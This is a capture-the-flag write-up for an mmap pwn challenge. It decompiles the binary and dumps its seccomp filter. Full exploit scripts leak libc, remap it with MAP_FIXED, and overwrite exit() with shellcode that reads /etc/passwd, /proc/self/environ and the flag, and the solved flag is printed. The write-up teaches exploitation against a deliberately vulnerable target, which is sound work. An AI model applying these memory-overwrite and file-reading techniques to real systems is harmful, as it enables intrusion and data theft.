



# Ministerul Mediului, Apelor și Pădurilor [499]
I thought that mmap-ing memory is safer than using malloc, so safe that I don't even need to enforce security checks. Well, I got it very very wrong.

Confused about the title? Google is too: https://imgur.com/a/QsSt41g

**Update**: If you exploit was working locally, but not on the remote, now it should work. I fixed the reading.
**Update**: The flag is in /home/ctf/flag.txt (and for all other challenges)

Running on Ubuntu 20.04

Target: nc challs.xmas.htsp.ro 2003
Author: littlewho

Files: `files.zip`, containing `chall` and `libc.so.6`

## TL;DR
* use option 1 to leak libc as an offset from the pointer returned by `mmap()`.
* use option 1 (again) to call `MAP_FIXED` on libc itself, **overwriting libc in memory**
* write `"/bin/sh"` shellcode over `exit()`; make sure the payload doesn't overwrite anything else important.
* install [pwnscripts](https://github.com/152334H/pwnscripts) thank
* grab the flag
## Unfortunate things

<p align="center">
<br>
<i>Not great.</i>
</p>
We'll [semi-automate](https://gist.github.com/152334H/4e2e5031647065a6de88a73bc44b5da0) the process of library-function identification by enumerating the stuff with gdb+IDA:
```python
gef➤  telescope (0x0000555555554000+0x3f00)
0x0000555555557f00│+0x0000: 0x0000000000003d00
0x0000555555557f08│+0x0008: 0x0000000000000000
0x0000555555557f10│+0x0010: 0x0000000000000000
0x0000555555557f18│+0x0018: 0x00007ffff7f93500  →  <seccomp_init+0> endbr64
0x0000555555557f20│+0x0020: 0x00007ffff7da0430  →  <__errno_location+0> endbr64
0x0000555555557f28│+0x0028: 0x00007ffff7e8be30  →  <unlink+0> endbr64
0x0000555555557f30│+0x0030: 0x00007ffff7f93b00  →  <seccomp_rule_add+0> endbr64
0x0000555555557f38│+0x0038: 0x00007ffff7e005a0  →  <puts+0> endbr64
0x0000555555557f40│+0x0040: 0x00007ffff7e8a1d0  →  <write+0> endbr64
0x0000555555557f48│+0x0048: 0x00007ffff7f937a0  →  <seccomp_load+0> endbr64
0x0000555555557f50│+0x0050: 0x00007ffff7dfdf50  →  <fclose+0> endbr64
0x0000555555557f58│+0x0058: 0x00007ffff7eabb00  →  <__stack_chk_fail+0> endbr64
0x0000555555557f60│+0x0060: 0x00007ffff7e94a20  →  <mmap64+0> endbr64
0x0000555555557f68│+0x0068: 0x00007ffff7e07c50  →  <setbuf+0> endbr64
0x0000555555557f70│+0x0070: 0x00007ffff7e5ef10  →  <alarm+0> endbr64
0x0000555555557f78│+0x0078: 0x00007ffff7e8a130  →  <read+0> endbr64
0x0000555555557f80│+0x0080: 0x00007ffff7dbf080  →  <ssignal+0> endbr64
0x0000555555557f88│+0x0088: 0x00007ffff7e9be90  →  <prctl+0> endbr64
0x0000555555557f90│+0x0090: 0x00007ffff7dfe4c0  →  <fflush+0> endbr64
0x0000555555557f98│+0x0098: 0x00007ffff7e91840  →  <mkstemp64+0> endbr64
0x0000555555557fa0│+0x00a0: 0x00007ffff7dfe1e0  →  <fdopen+0> endbr64
0x0000555555557fa8│+0x00a8: 0x00007ffff7eaa040  →  <__printf_chk+0> endbr64
0x0000555555557fb0│+0x00b0: 0x00007ffff7ddf230  →  <__isoc99_scanf+0> endbr64
0x0000555555557fb8│+0x00b8: 0x00007ffff7dc2bc0  →  <exit+0> endbr64
0x0000555555557fc0│+0x00c0: 0x00007ffff7dff480  →  <fwrite+0> endbr64
0x0000555555557fc8│+0x00c8: 0x00007ffff7eaa110  →  <__fprintf_chk+0> endbr64
0x0000555555557fd0│+0x00d0: 0x00007ffff7e1b580  →  <strerror+0> endbr64
0x0000555555557fd8│+0x00d8: 0x0000000000000000
0x0000555555557fe0│+0x00e0: 0x00007ffff7d9ffc0  →  <__libc_start_main+0> endbr64
0x0000555555557fe8│+0x00e8: 0x0000000000000000
```
<p align="center">
<br>
<i>Input on right, results on left.</i>
</p>
We'll find that everything is labelled, bar these functions:



Since the challenge involves seccomp, let's just [dump everything out](https://github.com/david942j/seccomp-tools):
```python
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0e 0xc000003e  if (A != ARCH_X86_64) goto 0016
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x0b 0xffffffff  if (A != 0xffffffff) goto 0016
 0005: 0x15 0x09 0x00 0x00000000  if (A == read) goto 0015
 0006: 0x15 0x08 0x00 0x00000001  if (A == write) goto 0015
 0007: 0x15 0x07 0x00 0x00000002  if (A == open) goto 0015
 0008: 0x15 0x06 0x00 0x00000003  if (A == close) goto 0015
 0009: 0x15 0x05 0x00 0x00000009  if (A == mmap) goto 0015
 0010: 0x15 0x04 0x00 0x0000000b  if (A == munmap) goto 0015
 0011: 0x15 0x03 0x00 0x0000000c  if (A == brk) goto 0015
 0012: 0x15 0x02 0x00 0x0000000f  if (A == rt_sigreturn) goto 0015
 0013: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0015
 0014: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x06 0x00 0x00 0x00000000  return KILL
 ```
Judging by the challenge name, it seems that we'll need to exploit some seccomp escape vector via mmap. However, our job for the time being will just be figuring out what the binary does.

## Static anal
The program starts with a few setup functions (`start_logger()`, `setup()`) before moving on to a `main()` loop involving a 3-option menu. `setup()` does the stuff you'd expect in a common CTF binary: an `alarm()` timeout + setting seccomp filters. `start_logger()` is specific to this challenge and should be inspected closely.
```c
void start_logger() {   // probably the focus of the exploit.
  char uninit_stackvar[8]; // [rsp+10h] [rbp-28h] BYREF
  strcpy(uninit_stackvar, "XXXXX");             // required for mkstemp()
  __m128i fname = _mm_load_si128(&xmmword_2110);// i.e. filename = ...
  unsigned int fd = mkstemp64(&fname);          // /tmp/log.error.X
  unlink(&fname);                               // removes the tempfile
  logger_fd = fdopen(fd, "r+");                 // ...with the fd open.
  fwrite("Logger initialized.\n", 1, 20, logger_fd);
}
void timeout() {
  puts("Timeout...");
  exit(0xFFFFFFFFLL);
}
__int64 setbuf_stuff() {
  setbuf(stdout, 0);
  return setbuf(stdin, 0);
}
__int64 setup_seccomp() {
  prctl(38LL, 1LL);
  __int64 v0 = seccomp_init(0LL);
  seccomp_rule_add(v0, 2147418112LL, 15LL, 0LL);
  // more omitted rules; just see seccomp-tools...
  seccomp_rule_add(v0, 2147418112LL, 12LL, 0LL);
  return seccomp_load(v0);
}
__int64 setup() {
  ssignal(14, timeout);
  alarm(60);
  setbuf_stuff();
  return setup_seccomp();
}
const void *create_mmap() {
  unsigned int prot, flags, fd;
  __int64 addr, len, offset;

  _printf_chk(1LL, "addr = ");
  _isoc99_scanf("%zx", &addr);
  _printf_chk(1LL, "len  = ");
  _isoc99_scanf("%zx", &len);
  _printf_chk(1LL, "prot = ");
  _isoc99_scanf("%d", &prot);
  _printf_chk(1LL, "flags = ");
  _isoc99_scanf("%d", &flags);
  _printf_chk(1LL, "fd = ");
  _isoc99_scanf("%d", &fd);
  _printf_chk(1LL, "offset = ");
  _isoc99_scanf("%ld", &offset);
  const void *newmem = mmap64(addr, len, prot, flags, fd, offset);
  if ( newmem == (const void *)-1LL ) { // if allocation fails
    unsigned int *errno = _errno_location();
    const char *error_desc = strerror(*errno);
    _fprintf_chk(logger_fd, 1LL, "Failed to MMAP: %s\n", error_desc);
    return 0;
  } else {
    _fprintf_chk(logger_fd, 1LL, "MMAPed: %p\n", newmem);
    return newmem;
  }
}
int main() {
  unsigned int bytes_written; // er14
  __int64 bytes_read; // rax
  int sz; // [rsp+0h] [rbp-38h] BYREF
  int opt; // [rsp+4h] [rbp-34h] BYREF

  char *scratch = NULL;
  int loop_remaining = 10;
  start_logger();
  setup();
  puts("Ministerul Mediului Apelor si Padurilor aka MMAP");
  do {
    fflush(logger_fd);
    _printf_chk(1, "choice = ");
    _isoc99_scanf("%d", &opt);
    switch (opt){
    case 1:
      scratch = (char *)create_mmap();
      break;
    case 2:
      _printf_chk(1, "sz = ");
      _isoc99_scanf("%d", &sz);
      _printf_chk(1, "data = ");
      bytes_written = write(1, scratch, sz);
      puts("");
      _fprintf_chk(logger_fd, 1, "Written %d bytes to stdout\n", bytes_written);
      break;
    case 3:
      _printf_chk(1, "sz = ");
      _isoc99_scanf("%d", &sz);
      _printf_chk(1, "data = ");
      bytes_read = read(0, scratch, sz); // note: this was patched to be a repeating read() loop later on.
      _fprintf_chk(logger_fd, 1, "Read %d bytes from stdin\n", bytes_read);
      break;
    case 4:
        exit(0);
        break;
    }
  } while ( --loop_remaining );
  fclose(logger_fd);
  return 0LL;
}
```
The main loop menu gives 3+1 options:
1. initialise a memory page via `mmap()`, with all arguments controlled by the user. the pointer to the mmaped region is returned, setting the variable `scratch` to it.
2. this command will print a user-controlled number of bytes from `scratch`.
3. this command will read in a user-controlled number of user-controlled bytes to `scratch`.
4. This will quit the program

The nature of the exploit here is not immediately apparent. Given that there are no restrictions on o/r/w syscalls, the most difficult part of this challenge will probably be controlling RIP, because once we've done that, all we'll really have to do is to jump to a user-initialised rwx mmap page of `read(open("flag"), buf, 999);` for the flag<sup>1</sup>.

Before getting RIP to the shellcode we desire, we'll need to find some way to leak libc, or some other method we can use to alter code execution.

## Finding libc
From [another challenge](https://github.com/IRS-Cybersec/ctfdump/blob/master/Hack%20The%20Vote%202020/Electrostar.md) I'd done previously<sup>2</sup>, I remembered that mmap, given `addr=NULL`, tends to put its new memory page extremely nearby the location of libc, giving an effective leak via `logger_fd`. On a machine with a similar libc version, I tested this:

```python
from pwnscripts import *
context.binary = 'chall'
context.libc_database = 'libc-database'
r = context.binary.process()
def create(addr: int=0, length: int=0, prot: int=0, flags: int=0, fd: int=0, offset: int=0):
    r.sendlineafter('choice = ', '1')
    r.sendlineafter('addr = ', hex(addr))
    r.sendlineafter('len  = ', hex(length)) #there's an extra space here -_-
    r.sendlineafter('prot = ', str(prot))
    r.sendlineafter('flags = ', str(flags))
    r.sendlineafter('fd = ', str(fd))
    r.sendlineafter('offset = ', str(offset))
def write(sz: int):
    r.sendlineafter('choice = ', '2')
    r.sendlineafter('sz = ', str(sz))
    r.recvuntil('data = ')
    return b''.join(r.recv(0xfff) for _ in range(sz//0xfff)) + r.recv(sz%0xfff)
def read(sz: int, data: bytes):
    r.sendlineafter('choice = ', '3')
    r.sendlineafter('sz = ', str(sz))
    r.sendlineafter('data = ', str(data))
gdb.attach(r)
create(length=0x1000, prot=7, flags=1, fd=3)
r.interactive()
```
##### Before `mmap(NULL, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_SHARED, 3, 0)`
```python
Start              End                Offset             Perm Path
0x00005654e60d5000 0x00005654e60f6000 0x0000000000000000 rw- [heap]
0x00007fc2fea31000 0x00007fc2fea34000 0x0000000000000000 rw-
0x00007fc2fea34000 0x00007fc2fea59000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fc2fea59000 0x00007fc2febd1000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fc2febd1000 0x00007fc2fec1b000 0x000000000019d000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fc2fec1b000 0x00007fc2fec1c000 0x00000000001e7000 --- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fc2fec1c000 0x00007fc2fec1f000 0x00000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fc2fec1f000 0x00007fc2fec22000 0x00000000001ea000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fc2fec22000 0x00007fc2fec26000 0x0000000000000000 rw-
0x00007fc2fec26000 0x00007fc2fec4e000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.4.3
0x00007fc2fec4e000 0x00007fc2fec59000 0x0000000000028000 r-x /usr/lib/x86_64-linux-gnu/libseccomp.so.2.4.3
0x00007fc2fec59000 0x00007fc2fec5d000 0x0000000000033000 r-- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.4.3
0x00007fc2fec5d000 0x00007fc2fec78000 0x0000000000036000 r-- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.4.3
0x00007fc2fec78000 0x00007fc2fec79000 0x0000000000051000 rw- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.4.3
0x00007fc2fec79000 0x00007fc2fec7b000 0x0000000000000000 rw-
0x00007fc2fec86000 0x00007fc2fec87000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fc2fec87000 0x00007fc2fecaa000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fc2fecaa000 0x00007fc2fecb2000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fc2fecb3000 0x00007fc2fecb4000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fc2fecb4000 0x00007fc2fecb5000 0x000000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fc2fecb5000 0x00007fc2fecb6000 0x0000000000000000 rw-
0x00007fff596bf000 0x00007fff596e0000 0x0000000000000000 rw- [stack]
0x00007fff597eb000 0x00007fff597ee000 0x0000000000000000 r-- [vvar]
0x00007fff597ee000 0x00007fff597ef000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
```

##### After `mmap(...)`
```python
Start              End                Offset             Perm Path
...
0x00007fc2fecaa000 0x00007fc2fecb2000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fc2fecb2000 0x00007fc2fecb3000 0x0000000000000000 rwx /tmp/log.error.7mfmYG (deleted)
0x00007fc2fecb3000 0x00007fc2fecb4000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
...
```
This says that libc is `0x7fc2fecb2000-0x7fc2fea34000==0x27e000` bytes above wherever mmap is located on its first allocation. At this point, I'm not really sure<sup>3</sup> if this will hold on remote, or if it's even consistent locally. I test it another two times locally for good measure:
```python
>>> hex(0x00007f6fb3d65000-0x00007f6fb3ae7000)
'0x27e000'
>>> hex(0x00007f98aa675000-0x00007f98aa3f7000)
'0x27e000'
```
Seems to stick.

### `EOF on remote`
Since we can't exactly run `vmmap` on remote, we'll conduct an alternative litmus test of sorts: can we grab data from libc? If we can, we'll be able to
 * leak out other address types from libc, like stack/heap/PIE
 * write *contiguously* to writable regions of libc/libcseccomp/ld-linux, which will be somewhat difficult to exploit because of the need to "guess all the right values" before whatever it is we're genuinely hoping to overwrite. Similar problems present themselves for overwriting RIP at the stack.

We'll test it out with a short script: This leaks the libc addresses from the mmap address, and then attempts to leak the header for libc itself by allocating an mmap page directly above libc, allowing for contiguous reading:
```python
create(length=0x1000, prot=7, flags=1, fd=3)
file_mmap = unpack_hex(write(0x30))
libc = file_mmap-0x27e000
create(addr=libc-0x1000, length=0x1000, prot=7, flags=0x32)
context.log_level = 'debug'
s = write(0x1010)
r.interactive()
```
The flags for the second `mmap()` call are `MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS`. Not entirely sure if the first flag is necessary, but `MAP_FIXED` is needed to place the page *exactly* before libc, and `MAP_ANONYMOUS` is done to ignore the value of `fd` passed to `mmap()`.

Locally, this works fine:
```python
[DEBUG] Received 0x5 bytes:
    b'sz = '
[DEBUG] Sent 0x5 bytes:
    b'4112\n'
[DEBUG] Received 0xfff bytes:
    00000000  64 61 74 61  20 3d 20 00  00 00 00 00  00 00 00 00  │data│ = ·│····│····│
    00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000ff0  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00     │····│····│····│···│
    00000fff
[DEBUG] Received 0x22 bytes:
    00000000  00 00 00 00  00 00 00 00  7f 45 4c 46  02 01 01 03  │····│····│·ELF│····│
    00000010  00 00 00 00  00 00 00 00  0a 63 68 6f  69 63 65 20  │····│····│·cho│ice │
    00000020  3d 20                                               │= │
    00000022
[*] Switching to interactive mode
\x00\x00\x00\x00choice = $
```
The ELF header in the second half of the `DEBUG` output corresponds to the start of a shared object. On remote, we receive **NOTHING**:
```python
[DEBUG] Received 0x5 bytes:
    b'sz = '
[DEBUG] Sent 0x5 bytes:
    b'4112\n'
[DEBUG] Received 0x7 bytes:
    b'data = '
[DEBUG] Received 0xa bytes:
    b'\n'
    b'choice = '
```
Nothing is received at all. Maybe it's a page fault -- what if we reduce the size?
```python
[DEBUG] Sent 0x3 bytes:
    b'16\n'
[DEBUG] Received 0x7 bytes:
    b'data = '
[DEBUG] Received 0x1a bytes:
    00000000  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000010  0a 63 68 6f  69 63 65 20  3d 20                     │·cho│ice │= │
    0000001a
[*] Switching to interactive mode

choice = $
```
Works fine here. We're probably not getting aligned exactly above libc on remote. Let's try a little bit of cheap bruteforcing:
```python
from sys import argv
create(length=0x1000, prot=7, flags=1, fd=3)
file_mmap = unpack_hex(write(0x30))
libc = file_mmap-0x27e000 + int(argv[1])*0x1000
create(addr=libc-0x1000, length=0x1000, prot=7, flags=0x32)
context.log_level = 'debug'
s = write(0x1010)
r.interactive()
```
We hit an unknown null-byte section at `argv[1]=6`: 
```python
[DEBUG] Received 0xb57 bytes:
    00000000  64 61 74 61  20 3d 20 00  00 00 00 00  00 00 00 00  │data│ = ·│····│····│
    00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000b50  00 00 00 00  00 00 00                               │····│···│
    00000b57
[DEBUG] Received 0x4ca bytes:
    00000000  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    000004c0  0a 63 68 6f  69 63 65 20  3d 20                     │·cho│ice │= │
    000004ca
[*] Switching to interactive mode
```
Not entirely sure what it could be. 7 gives an EOFError (!), 8 gives the same nul-bytes, and 9 *finally* gives the ELF header we're looking for:
```python
$ python3.8 misterul.py 9
...
[DEBUG] Received 0x4ca bytes:
    00000000  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    000004b0  7f 45 4c 46  02 01 01 03  00 00 00 00  00 00 00 00  │·ELF│····│····│····│
    000004c0  0a 63 68 6f  69 63 65 20  3d 20                     │·cho│ice │= │
    000004ca
[*] Switching to interactive mode
```
To verify that this is actually libc (and not some other shared object happened across), we'll try to leak `"/bin/sh"` from this bruteforced offset:
```python
create(length=0x1000, prot=7, flags=1, fd=3)
file_mmap = unpack_hex(write(0x30))
libc = file_mmap-0x27e000 + 9*0x1000    # empirical for remote
create(addr=libc-0x1000, length=0x1000, prot=7, flags=0x32)
s = write(0x1000+context.libc.symbols['str_bin_sh']+8)
print(s[-8:])
r.interactive()
```
Works like a charm:
```python
b'/bin/sh\x00'
[*] Switching to interactive mode

choice = $
```
With access to libc, what's next?
## Overwriting 
When I was looking up `MAP_FIXED` online, I noticed [this stackoverflow page](https://stackoverflow.com/questions/14943990/overlapping-pages-with-mmap-map-fixed#14949352) indicating that the option had the power to *completely overwrite* pre-existing mapped pages in the program.

That was from 2013. Surely someone would've patched it by now?
##### Before 2nd `mmap()`
```python
0x00007f9353227000 0x00007f935322a000 0x0000000000000000 rw-
0x00007f935322a000 0x00007f935324f000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f935324f000 0x00007f93533c7000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
```
##### After `mmap(libc, 0x1000, PROT_RWX, MAP_(PRIVATE|FIXED|ANONYMOUS), 0, 0)`
```python
0x00007f935322a000 0x00007f935322b000 0x0000000000000000 rwx
0x00007f935322b000 0x00007f935324f000 0x0000000000001000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f935324f000 0x00007f93533c7000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
```
_It's free real estate._

What we need to do now is to locate a section of libc that we can reallocate without busting the system immediately, while also working to execute the code we need to win.

I'll start by trying `exit()`, if only because it's a simple option to manipulate.<sup>4</sup>

```python
create(length=0x1000, prot=7, flags=1, fd=3)
file_mmap = unpack_hex(write(0x30))
libc_offset = context.libc.symbols['exit']&0xfffff000
libc = file_mmap-0x27e000   # empirical for local
#libc+= 9*0x1000    # empirical for remote
create(addr=libc+libc_offset, length=0x1000, prot=7, flags=0x32)
# start of payload will be identical to the original contents of libc
payload = context.libc.get_data()[libc_offset:context.libc.symbols['exit']]
# exit() to be replaced with shellcode that will print flag with current seccomp filters in mind
payload+= asm(shellcraft.open(b'flag.txt') + shellcraft.readn(4, file_mmap, 10) + shellcraft.write(1, file_mmap, 20) + shellcraft.ret())
read(len(payload), payload)
r.sendlineafter('choice = ', '4')
r.interactive()
```
What we're doing here is:
 * Allocating the smallest possible page size that will override `exit()`
 * writing the original contents of libc back before `exit()` to ensure that there's as little crashing as possible,
 * **Replace exit() with shellcode for printing a flag**
 * run `exit()` to get the flag

This works locally (after creating a fake `flag.txt`):
```python
[*] Switching to interactive mode
[DEBUG] Received 0x14 bytes:
    b'TEST{flag}tialized.\n'
TEST{flag}tialized.
[*] Got EOF while reading in interactive
```
But fails on remote:
```python
[DEBUG] Received 0x9 bytes:
    b'choice = '
[DEBUG] Sent 0x2 bytes:
    b'4\n'
[*] Switching to interactive mode
$
```
`flag` fails as well. Is the shellcode even working on remote?

One person from [HATS](https://hats.sg/) suggested that I should try a known file like `/etc/passwd`.
```python
create(addr=libc+libc_offset, length=0x1000, prot=7, flags=0x32)
payload = context.libc.get_data()[libc_offset:context.libc.symbols['exit']]
payload+= asm(shellcraft.open(b'/etc/passwd') + shellcraft.readn(4, file_mmap, 10) + shellcraft.write(1, file_mmap, 20) + shellcraft.ret())
read(len(payload), payload)
context.log_level = 'debug'
r.sendlineafter('choice = ', '4')
r.interactive()
```
That worked:
```python
[DEBUG] Sent 0x2 bytes:
    b'4\n'
[*] Switching to interactive mode
[DEBUG] Received 0x14 bytes:
    b'root:x:0:0tialized.\n'
root:x:0:0tialized.
[*] Got EOF while reading in interactive
```
The only issue now is finding out what the name of the flag is. As I asked around in the challenge Discord for the flag location, I got another suggestion to check out `/proc/self/environ`:
```python
HOSTNAME=3820746032cc\x00HLVL=1\x00OME=/root\x00HALL_USER=ctf\x00=/etc/init.d/xinetd\x00ATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\x00HALL_PATH=/home/ctf\x00WD=/home/ctf\x00EMOTE_HOST=94.130.52.180\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```
From there, I guessed the location of the flag at `/home/ctf/flag.txt`:
```python
[*] Switching to interactive mode
[DEBUG] Received 0x14 bytes:
    b'X-MAS{70_m4p_0r_70_u'
X-MAS{70_m4p_0r_70_u[*] Got EOF while reading in interactive
$
```
As I grabbed this, the challenge author, @littlewho, replied to my calls for help<sup>5</sup>, and made a number of edits to the challenge description:
```
Update: The flag is in /home/ctf/flag.txt (and for all other challenges)
```
That confirms that.

With the power of manual bruteforcing<sup>6</sup>, I obtain the final flag with a length of 47:
```python
create(addr=libc+libc_offset, length=0x1000, prot=7, flags=0x32)
payload = context.libc.get_data()[libc_offset:context.libc.symbols['exit']]
payload+= asm(shellcraft.open(b'/home/ctf/flag.txt') + shellcraft.readn(4, file_mmap, 47) + shellcraft.write(1, file_mmap, 47) + shellcraft.ret())
read(len(payload), payload)
context.log_level = 'debug'
r.sendlineafter('choice = ', '4')
r.interactive()
```

## Flag
`X-MAS{70_m4p_0r_70_unm4p_7h15_15_7h3_qu35710n}`

## Footnotes
1. This was surprisingly on-point. At the time, I had half-considered the possibility that escaping seccomp might be necessary, but if that was the case, I wouldn't have solved the problem anyway.
2. The relevant part is at the end of the write-up, where I observe that the pointer printed at the start of `Electrostar`'s execution provides a libc leak that I could've used, if I had known how to solve part 2 of the challenge.
3. I was *kinda* sure, considering that my machine was running **Ubuntu 20.04.1 LTS** with the **exact same libc id**:
   ```sh
   $ ./libc-database/identify libc.so.6
   libc6_2.31-0ubuntu9.1_amd64
   $ ./libc-database/identify /lib/x86_64-linux-gnu/libc.so.6
   libc6_2.31-0ubuntu9.1_amd64
   ```
   I'm still not entirely sure why the exploit offsets are different on remote. Perhaps there are differences in the shared objects for ld/seccomp that I failed to account for.
4. Another worthwhile candidate might be `fclose()`, at the end of the do-while loop.
5. Thanks.
6. A physical do-while loop with my hands & keyboard:
   * `:s/$number/$newnum/g`
   * `:w`
   * `C-z`
   * `^[[A` twice for `python3.8 misterul.py`
   * if flag not full, `fg`